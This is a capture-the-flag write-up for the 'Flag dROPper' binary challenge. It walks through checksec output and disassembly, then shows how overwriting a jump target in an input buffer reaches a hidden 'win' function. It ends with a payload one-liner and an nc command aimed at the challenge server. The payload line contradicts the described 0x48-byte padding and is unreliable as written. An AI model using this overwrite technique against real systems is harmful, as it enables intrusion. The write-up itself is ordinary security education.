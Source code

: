 # Flag dROPper

The challenge provided an ELF executable that prints some text and waits for user input.

```
$ ./flagDropper
Welcome to the Flag Dropper!
Make sure to catch the flag when its dropped!
1,
2,
3,
CATCH
f
```

The ```checksec``` command in ```gef``` yelds a simple binary without relevant security measures
```
Canary                        : ✘
NX                            : ✘
PIE                           : ✘
Fortify                       : ✘
RelRO                         : Partial
```

Disassembling the binary yelds a function with several syscalls and a ```JMP```.
```
0000000000400540 <main>:
  400540:       55                      push   rbp
  400541:       48 89 e5                mov    rbp,rsp
  400544:       b8 01 00 00 00          mov    eax,0x1
  400549:       bf 01 00 00 00          mov    edi,0x1
  40054e:       48 be 38 10 60 00 00    movabs rsi,0x601038
  400555:       00 00 00
  400558:       ba 4b 00 00 00          mov    edx,0x4b
  40055d:       0f 05                   syscall
  40055f:       b8 01 00 00 00          mov    eax,0x1
  400564:       bf 01 00 00 00          mov    edi,0x1
  400569:       48 be 84 10 60 00 00    movabs rsi,0x601084
  400570:       00 00 00
  400573:       ba 11 00 00 00          mov    edx,0x11
  400578:       0f 05                   syscall
  40057a:       48 8d 04 25 a4 10 60    lea    rax,ds:0x6010a4
  400581:       00
  400582:       48 83 c0 48             add    rax,0x48
  400586:       c7 00 d0 05 40 00       mov    DWORD PTR [rax],0x4005d0
  40058c:       b8 00 00 00 00          mov    eax,0x0
  400591:       bf 00 00 00 00          mov    edi,0x0
  400596:       48 be a4 10 60 00 00    movabs rsi,0x6010a4
  40059d:       00 00 00
  4005a0:       ba c8 00 00 00          mov    edx,0xc8
  4005a5:       0f 05                   syscall
  4005a7:       b8 01 00 00 00          mov    eax,0x1
  4005ac:       bf 01 00 00 00          mov    edi,0x1
  4005b1:       48 be a4 10 60 00 00    movabs rsi,0x6010a4
  4005b8:       00 00 00
  4005bb:       ba 40 00 00 00          mov    edx,0x40
  4005c0:       0f 05                   syscall
  4005c2:       48 8d 04 25 a4 10 60    lea    rax,ds:0x6010a4
  4005c9:       00
  4005ca:       48 83 c0 48             add    rax,0x48
  4005ce:       ff 20                   jmp    QWORD PTR [rax]

00000000004005d0 <_exit>:
  4005d0:       b8 3c 00 00 00          mov    eax,0x3c
  4005d5:       48 31 ff                xor    rdi,rdi
  4005d8:       0f 05                   syscall

00000000004005da <win>:
  4005da:       b8 00 00 00 00          mov    eax,0x0
  4005df:       48 8d 34 25 9d 10 60    lea    rsi,ds:0x60109d
  4005e6:       00
  4005e7:       48 8d 3c 25 94 10 60    lea    rdi,ds:0x601094
  4005ee:       00
  4005ef:       e8 4c fe ff ff          call   400440 <fopen@plt>
  4005f4:       48 89 c2                mov    rdx,rax
  4005f7:       b8 00 00 00 00          mov    eax,0x0
  4005fc:       48 bf 24 11 60 00 00    movabs rdi,0x601124
  400603:       00 00 00
  400606:       be 16 00 00 00          mov    esi,0x16
  40060b:       e8 20 fe ff ff          call   400430 <fgets@plt>
  400610:       bf 01 00 00 00          mov    edi,0x1
  400615:       b8 01 00 00 00          mov    eax,0x1
  40061a:       ba 16 00 00 00          mov    edx,0x16
  40061f:       0f 05                   syscall
  400621:       eb ad                   jmp    4005d0 <_exit>
  400623:       66 2e 0f 1f 84 00 00    nop    WORD PTR cs:[rax+rax*1+0x0]
  40062a:       00 00 00
  40062d:       0f 1f 00                nop    DWORD PTR [rax]
```

The ```JMP``` at address ```0x4005ce``` uses the data at the end of the buffer, after byte ```0x48```.
This buffer seems to hold the result of the text provided by the user.
After the ```JMP``` the program exits. Interestingly, there is a label ```win``` after the exit, whichs opens
a file, gets the result, prints the result using a ```syscall``` and then exits. Seems like we have a winner!

Further inspection with ```gdb``` shows that the memory used for the buffer is full of ```0x00``` and ends with ``` 0x4005d0```.
Therefore, without an overflow, the code will jump to the exist section and will terminate the program.

A valid attack would be to provide a payload with ```0x48``` bytes of padding and then ```0x4005da```. 
This would make the code jump to the ```win``` method.

To generate the payload:
```
python3 -c "with open('payload', 'wb') as f: f.write(b'\xaa'+b'\xda')"
```
We only need to write ```0xda``` as the result of the address has the same prefix (```0x4005```)


Then send the payload to the server:
```
nc dropper.sdc.tf 1337 < payload
```

which would provide the flag.

